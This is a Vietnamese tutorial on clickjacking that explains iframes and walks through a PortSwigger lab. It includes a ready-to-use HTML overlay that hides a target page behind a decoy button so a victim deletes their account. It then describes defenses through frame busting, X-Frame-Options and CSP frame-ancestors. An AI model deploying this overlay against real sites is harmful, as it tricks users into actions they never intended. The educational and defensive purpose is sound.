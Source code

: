 # Clickjacking là gì?

Trong bài viết này, chúng ta sẽ cùng tìm hiểu về lỗ hổng clickjacking. Một kỹ thuật không mới nhưng cũng vô cùng nguy hiểm nhằm đánh lừa những cú click chuột của người dùng.

## Clickjacking là gì?

### 1. Thẻ iframe

Trước khi đi sâu vào clickjacking, chúng ta cần hiểu thẻ iframe là gì.

Nhìn vào đoạn code dưới đây.

```html
<!DOCTYPE html>
<html>
<body>
<iframe src="https://www.w3schools.com"></iframe>
</body>
</html>
```

Đoạn code trên rất đơn giản.

Những gì thẻ iframe thực hiện chỉ đơn giản là đưa một trang khác vào trang của bạn.

Như bạn thấy, trang w3 đã được đưa vào trang.

Dễ phải không? Với thẻ iframe, bạn có thể đưa trang web khác vào trang của mình.

### 2. Lỗ hổng clickjacking cơ bản

Vậy, vấn đề của thẻ iframe là gì?

Vấn đề chính là iframe có thể bị ẩn đằng sau một cái gì đó.

Nghe hơi khó hiểu đúng chứ, nhưng thực tế thì nó dễ hiểu lắm.

Mình sẽ sử dụng phòng thí nghiệm Portswigger để giải thích cho cuộc tấn công.

Đăng nhập ứng dụng với các thông tin xác thực đã cho.

Nếu chúng ta chuyển đến Account, chúng ta có thể xóa tài khoản của mình.

Nếu trang dễ bị clickjacking, chúng ta có thể ẩn iframe và thuyết phục người dùng nhấp vào nút (hoặc từ) khác mà chúng ta đã thêm vào trang mà họ không biết gì cả.

Những gì bạn phải làm chỉ đơn giản là cung cấp đoạn code bên dưới cho nạn nhân.

```html
<!DOCTYPE html>
<html>
<body>
<style>
   iframe {
       position:relative;
       width:500px;
       height: 700px;
       opacity: 0.0001;
       z-index: 2;
   }
   div {
       position:absolute;
       top:320px;
       left:60px
       z-index: 1;
   }
</style>
<div>Test me</div>
<iframe src="Your_URL"></iframe>
</body>
</html>
```

Tóm lại, đoạn code trên đảm bảo rằng văn bản Test me được căn chỉnh chính xác trên nút delete của trang iframe.

Chúng ta có thể thấy từ các thông số CSS rằng iframe có độ mờ rất thấp, vì vậy nó sẽ ẩn đối với người dùng cũng như thẻ z-index sẽ đảm bảo rằng trang Portswigger nằm trên đầu Test me.

### 3. Cơ chế bảo vệ chống lại clickjacking

Có một số cách để giảm thiểu lỗ hổng clickjacking, mình sẽ bắt đầu liệt kê từ phương pháp kém tin cậy nhất đến an toàn nhất.

#### 1. Frame Busting

Frame Busting, là một kỹ thuật phía máy khách sử dụng JavaScript để tránh trang của bạn có thể được đóng khung thành một trang khác.

Như hầu hết các kỹ thuật phía máy khách, nó có thể dễ dàng bị bỏ qua bằng cách sử dụng thuộc tính hộp cát của thẻ iframe, ví dụ: tham số allow-script sẽ cho phép thẻ thực thi code JavaScript do đó bỏ qua cơ chế bảo vệ.

#### 2. X-Frame

X-Frame là một kỹ thuật phía máy chủ giúp giảm thiểu nhấp chuột bằng cách sử dụng tiêu đề X-Frame.

Tiêu đề này có thể được cấu hình với 3 tham số trong một yêu cầu HTTP.

- **Deny**: Mọi iframe sẽ bị chặn.
- **Sameorigin**: Iframe được cho phép, nhưng chỉ có thể được nhúng vào khung trên trang có cùng nguồn gốc với chính nó (Ví dụ: nếu http://example.com chỉ yêu cầu iframe của chính nó thì nó sẽ được phép sử dụng iframe đó).
- **Allow from**: Các trang web trong danh sách trắng có thể sử dụng iframe.

```
X-Frame-Options: deny
X-Frame-Options: sameorigin
X-Frame-Options: allow-from http://example.com
```

Ngay cả khi nó là một kỹ thuật tuyệt vời, ngày nay nó được coi là không còn được dùng nữa và CSP được sử dụng để thay thế nó.

#### 3. CSP

CSP là viết tắt của chính sách bảo mật nội dung (content security policy) là một cơ chế phòng thủ được thực hiện bởi các trang web để ngăn chặn clickjacking và các cuộc tấn công từ phía client như XSS.

Nó thường được triển khai trong máy chủ web dưới dạng return header.

Bạn có thể sử dụng tham số frame-ancestors để clickjacking với tùy chọn none tương đương với deny của X-Frame, và với tên của trang web được phép nhúng vào trang web.

```
Content-Security-Policy: frame-ancestors 'none'
Content-Security-Policy: frame-ancestors 'self'
Content-Security-Policy: frame-ancestors http://example.com
```

## Kết luận

Ngay cả khi một trang có thể được đưa vào iframe, điều đó không có nghĩa là bản thân nó là một lỗ hổng.

Trên thực tế, clickjacking chỉ có thể được khai thác khi trong trang có biểu mẫu hoặc lỗ hổng XSS.

---

*Nguồn: [AnonyViet](https://anonyviet.com/clickjacking-la-gi/)*